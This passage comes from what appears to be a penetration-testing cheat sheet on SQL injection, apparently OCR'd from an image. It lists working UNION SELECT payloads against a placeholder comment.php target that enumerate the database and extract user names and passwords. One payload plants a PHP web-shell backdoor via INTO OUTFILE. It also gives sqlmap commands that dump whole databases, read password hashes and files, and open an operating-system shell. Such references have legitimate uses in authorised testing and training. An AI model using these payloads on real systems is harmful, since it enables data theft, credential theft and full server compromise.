         `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6`

        Determine MySQL Version:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6`

        Current user being used for the database connection:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6`

        Enumerate database tables and column structures

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables`

        Target the users table in the database

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'`

        Extract the name and password

        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users`

        Create a backdoor

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'`

    *   **SQLMap Examples**

    *   Crawl the links

        `sqlmap -u http://$ip --crawl=1`

        `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`

    *   SQLMap Search for databases against a suspected GET SQL Injection

        `sqlmap –u http://$ip/blog/index.php?search –dbs`

    *   SQLMap dump tables from database oscommerce at GET SQL injection

        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps`

    *   SQLMap GET Parameter command

        `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5`

    *   SQLMap Post Username parameter

        `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`

    *   SQL Map OS Shell

        `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell`

        `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`

    *   Automated sqlmap scan

        `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"`
